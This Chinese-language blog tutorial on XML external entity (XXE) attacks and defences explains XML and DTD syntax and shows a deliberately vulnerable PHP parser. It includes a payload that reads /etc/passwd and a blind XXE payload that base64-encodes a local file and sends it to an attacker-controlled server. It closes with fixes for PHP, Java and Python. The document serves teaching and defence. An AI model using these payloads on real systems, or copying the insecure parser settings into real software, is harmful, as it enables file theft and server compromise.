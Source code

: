 ```yaml
---
layout: post
title: "xxe漏洞攻防"
date: 2018-1-23
tags:
  web
categories:
  Web
---
```

# 0x01 XML基础
xml是用于传输存储数据，并非像html一样显示数据的，直接举个例子说明：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

语法类似于html，但xml没有预定义标签，一切标签都由使用者创建，xml文档必须要有根元素，如上mail，标签名大小写敏感

# 0x02 文档类型定义

文档类型定义(DTD)，是定义xml文档的结构的模块，可以声明在xml文档内部，也可以作为外部引用，作为内部声明如下例：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mail [
  <!ELEMENT mail (to,from,content)>
  <!ATTLIST mail date CDATA "2017.1.21">
  <!ELEMENT to (#PCDATA)>
  <!ELEMENT from (#PCDATA)>
  <!ELEMENT content (#PCDATA)>
]>
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

作为外部引用时，DTD单独作为一个文件被xml文档引用，如下例：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE mail SYSTEM "xxx.dtd">
<mail date="2017.1.21">
  <to>A</to>
  <from>B</from>
  <content>
    Happy new year , A
  </content>
</mail>
```

语法不复杂，简单提一些重点：

* 如果dtd位于xml文档内部声明中，那么需要封装在<!DOCTYPE>定义中，``<!DOCTYPE 根元素 [...]>``
* 如果在外部，``<!DOCTYPE 根元素 SYSTEM "URI">``
* PCDATA(被解析的字符数据)，是会被解析的文本，CDATA(字符数据)，是不会被解析器解析的文本
* 元素声明用``<!ELEMENT 元素名 (结构)>``
* 属性声明用``<!ATTLIST 元素名 属性名 类型 “值”>``


既然xxe漏洞涉及到实体的引用，再简单介绍下实体，内部实体：

```xml
<!ENTITY 实体名 “值”>
```

外部实体：

```xml
<!ENTITY 实体名 SYSTEM "URI">
```

参数实体：

```xml
<!ENTITY % 实体名 “值”>
//或者
<!ENTITY % 实体名 SYSTEM "URI">
```
# 0x03 xml外部实体注入(XXE)

讲了那么多，防止自己以后看不懂，现在这才是我们的重点，xml外部实体注入攻击，在xml文档中，``SYSTEM``关键字会令xml解析器去读取URI的内容，攻击者可以构造自定义的URI，可造成任意文件读取，SSRF，拒绝服务攻击，命令执行等漏洞，不同程序支持协议不同：

![](http://4o4notfound.org/usr/uploads/2017/04/2786301042.png)

```php
<?php
    //让php允许外部实体
    libxml_disable_entity_loader(false);

    $xml = file_get_contents('php://input');

    $dom=DOMDocument::loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    //LIBXML_NOENT:将XML中的实体引用替换成对应的值
    //LIBXML_DTDLOAD：加载 DOCTYPE 中的DTD文件

    $test = simplexml_import_dom($dom);
    //simplexml_import_dom：从DOM节点获取一个SimpleXMLElement对象。
    $user = $test->user;
    echo "test xml external entity: $user";
?>
```

post数据：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ELEMENT test ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<test>
<user>&xxe;</user>
</test>
```

![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/xxe-readfile.png?raw=true)

当页面无回显时，也就是**blind xxe**，可以使用php伪协议进行文件读取，post如下数据：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY % remote SYSTEM	"http://127.0.0.1/test.xml">
%remote;
]>
```
test.xml为
```
<!ENTITY % payload	SYSTEM	 "php://filter/read=convert.base64-encode/resource=file:///etc/issue">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://127.0.0.1/?%payload;'>">
%int;
%trick;
```
![](https://github.com/c1h3ng/c1h3ng.github.io/blob/master/assets/images/blind-xxe.png?raw=true)

在本地日志中可以看见base64编码的``/etc/issue``文件的内容``Kali GNU/Linux Rolling \n \l
``在实际利用时将本地改为vps地址，即可在vps的日志中读取文件内容，在php开启``expect``扩展时可以执行命令

# 0x04 修复方案

* 禁止外部实体引用

```
PHP：
libxml_disable_entity_loader(true);

JAVA:
DocumentBuilderFactory dbf =DocumentBuilderFactory.newInstance();
dbf.setExpandEntityReferences(false);

Python：
from lxml import etree
xmlData = etree.parse(xmlSource,etree.XMLParser(resolve_entities=False))
```

* 过滤用户提交的xml数据中的DTD声明，实体声明，外部资源请求：``<!DOCTYPE``，``<!ENTITY``，``SYSTEM``
，``PUBLIC``
